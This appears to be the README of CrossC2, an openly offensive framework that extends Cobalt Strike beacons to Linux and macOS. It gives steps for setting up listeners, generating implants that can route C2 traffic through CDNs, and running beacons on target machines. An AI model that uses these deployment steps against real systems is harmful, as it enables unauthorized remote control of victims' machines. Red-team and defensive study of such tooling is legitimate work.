 # CrossC2 framework

[![ Linux ](https://svgshare.com/i/Zhy.svg)](https://svgshare.com/i/Zhy.svg)
[![ macOS ](https://svgshare.com/i/ZjP.svg)](https://svgshare.com/i/ZjP.svg)
[![GitHub issues-closed](https://img.shields.io/github/issues-closed/gloxec/CrossC2.svg)](https://GitHub.com/gloxec/CrossC2/issues?q=is%3Aissue+is%3Aclosed)
[![Release](https://img.shields.io/github/release/gloxec/CrossC2.svg)](https://github.com/gloxec/CrossC2/releases/latest)
[![Downloads](https://img.shields.io/github/downloads/gloxec/CrossC2/total?label=Release%20Download)](https://github.com/gloxec/CrossC2/releases/latest)



<p align="center">
  <img alt="CrossC2 Logo" src="media/16292585578533/CrossC2_logo.png" height="30%" width="30%">
</p>


[README](README.md) | [中文文档](README_zh.md) | [README_FULL](README_full.md) | [中文完整文档](README_zh_full.md) 


# CobaltStrike support

Support CobaltStrike's security assessment of other platforms (Linux/MacOS/...), and include the development support of Unix post-penetration module

|                 | CS3.14(bug fixes) | CS4.0 | CS4.X (>=4.1) |
|-----------------|----------|-------|---------------|
| Master branch        | ✅        |       |               |
| cs4.0 branch         |          | ✅     |               |
| cs4.1 branch         |          |       | ✅             |
|                 |          |       |               |
| Release Page <= v2.1 | ✅        |       |               |
| Release Page >= v2.2 |          |       | ✅             |

# Usage

## 1. Download

Download **CrossC2.cna** **genCrossC2** **CrossC2Kit** from [release](/gloxec/CrossC2/releases), modify `CrossC2.cna` configuration

## 2. Create listener and copy key

* Create `windows/beacon_https/reverse_https` listener
* Copy `.cobaltstrike.beacon_keys` in **teamserver directory** to **local**

## 3. Function extension

* Add `CrossC2Kit_Loader.cna`, including memory loading and other functions
* `cs4.x` version file management, process list function is missing, you must use this Loader to restart

## 4. Generate beacon

Use the GUI function provided by cli or cna to generate beacon by default

* When teamserver is configured with c2profile, the rebind library needs to be generated in advance for use when generating beacon
* When using the forwarding method, in addition to specifying the rebind library, you also need to pay attention to the C2_HOST field when generating:
    * When the service provider uses the HTTP request content to verify the type, it needs to specify the CDN IP list: `genCrossC2 1.1.1.1,2.2.2.2,3.3.3.3,xxx.xxx.xxx.xx ...`
    * When the CDN server is verified by SNI, CDN operators such as Cloudflare need to specify the domain name bound to the CDN: `genCrossC2 c2.domain.com ...`

Rebind library related introduction: 
* [📖wiki](https://gloxec.github.io/CrossC2/zh_cn/protocol/)
* Demo: 
    * C2Profile demo [📄demo_c2profile.profile](https://github.com/gloxec/CrossC2/blob/cs4.1/protocol_demo/https.profile) [📄demo_c2profil_rebind.c](https://github.com/gloxec/CrossC2/blob/cs4.1/protocol_demo/c2profile.c) 
    * UDP communication demo [📄demo_udp_proxy_server.c](https://github.com/gloxec/CrossC2/blob/cs4.1/protocol_demo/proxy_udp.py) [📄demo_udp_rebind.c](https://github.com/gloxec/CrossC2/blob/cs4.1/protocol_demo/rebind_udp.c)
* Issues: [🏷issue #65 (Example of data transfer and c2profile field correspondence)](https://github.com/gloxec/CrossC2/issues/65)、[🏷issue #89 (Data processing example)](https://github.com/gloxec/CrossC2/issues/89#issuecomment-861194022)

## 5. Run beacon

* Run the one-click online script generated by the CrossC2 plugin on the target
* After uploading the beacon to the target machine for empowered operation
* Set the working directory for beacon and run: `export CCPATH=/opt/ && /tmp/c2`
* Temporarily specify the protocol library for beacon and run: `/tmp/c2 /tmp/c2-rebind.so`
* Temporarily set C2 configuration for beacon: `export CCHOST=127.0.0.1 && export CCPORT=443 && /tmp/c2`
* Set DEBUG to view the online status of beacon: `export CCDEBUG=1 && /tmp/c2`

# Note

`Only for internal use by enterprises and organizations, this framework has a certain degree of instability. Non-professionals are not allowed to use it. Anyone shall not use it for illegal purposes and profitability. Besides that, publishing unauthorized modified version is also prohibited, or otherwise bear legal responsibilities.`

# Todo

1. http-proxy (auth) & socks proxy back connection support
2. node beacon? (Single node type, can host other beacon without relying on teamserver)
3. Linux & MacOS side so/dylib's reverse shell support, and its derivative process injection functions

# Thank

Thanks to **@Emma** for the Logo designed for CrossC2, which is designed in the style of **Armitage** and **CobaltStrike** series
